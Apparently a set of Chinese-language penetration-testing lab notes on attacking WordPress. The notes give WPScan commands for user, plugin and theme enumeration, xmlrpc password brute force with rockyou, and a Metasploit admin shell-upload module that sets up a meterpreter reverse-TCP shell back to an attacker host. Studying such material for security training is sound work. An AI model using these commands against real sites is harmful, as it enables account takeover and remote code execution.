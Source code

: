 ```shell-session
<link rel='stylesheet' id='contact-form-7-css'  href='http://blog.inlanefreight.local/wp-content/plugins/contact-form-7/includes/css/styles.css?ver=5.4.2' type='text/css' media='all' />
<link rel='stylesheet' id='wpdiscuz-frontend-css-css'  href='http://blog.inlanefreight.local/wp-content/plugins/wpdiscuz/themes/default/style.css?ver=7.0.4' type='text/css' media='all' />
```
### User列舉
- 利用 `/wp-login.php`，會顯示使用者不存在、使用者密碼錯誤等資訊。
- 預設是`admin/admin`
- 可以利用Hydra、WPscan暴力破解
- 可以利用WPscan列舉user
### WPScan
- Plug-In 列舉
```
wpscan --url http://192.168.234.244 --enumerate p --plugins-detection aggressive -o websrv1/wpscan --api-token dEOFB<SNIP>
```
```
wpscan --update --url http://192.168.169.167/ --enumerate ap --plugins-detection aggressive
```
- User 列舉
```
wpscan –url http://example.com –enumerate u
```
- Theme 列舉
```
wpscan --url [http://www.anywordpressintalledsite.com/](http://www.anywordpressintalledsite.com/) --enumerate t
```
- 弱點Plug-In檢查
```
wpscan --url [http://www.anywordpressintalledsite.com/](http://www.anywordpressintalledsite.com/) --enumerate vp
```
##  WordPress攻擊手法
>[!note] 重點
>主要攻擊手法
>- 暴力破解
>- 弱點Plug-In 
>- 利用Theme、Plug-In取得RCE
### 暴力破解手法
>可以利用`wp-login`跟`xmlrpc`裡面的API做爆破，同時也可以用Hydra做爆破
```shell-session
sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```
```
sudo wpscan --url http://10.10.110.100:65000/wordpress -U james -P custom-wordlist.txt
```
### RCE(內建方法)
- 透過修改Theme
- 透過上傳Plug-In
- 透過Metasploit
```shell-session
msf6 > use exploit/unix/webapp/wp_admin_shell_upload 

[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.local
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username john
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password firebird1
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.14.15 
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhost 10.129.42.195  
```